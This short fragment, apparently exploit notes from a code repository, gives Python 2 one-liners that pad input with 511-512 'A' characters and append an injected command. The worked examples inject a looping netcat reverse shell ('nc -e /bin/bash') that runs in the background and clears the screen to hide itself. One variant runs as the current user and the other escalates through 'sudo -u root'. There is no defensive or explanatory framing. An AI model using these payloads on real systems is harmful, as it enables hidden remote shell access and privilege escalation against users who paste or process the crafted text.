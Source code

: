 
create payload:<b>
python2 -c \'print \"A\"*511+\"command here\"\' 


example:


#with current user:
python2 -c 'print "copy from[" +"A"*512+"\nbash -c \"while true;do nc -e /bin/bash 127.0.0.1 2021 2>/dev/null;done &clear\""+"\n ]to"'

#with root? user:
python2 -c 'print "copy from[" +"A"*512+"\nsudo -u root bash -c \"while true;do nc -e /bin/bash 127.0.0.1 2021 2>/dev/null;done &clear\""+"\n ]to"'
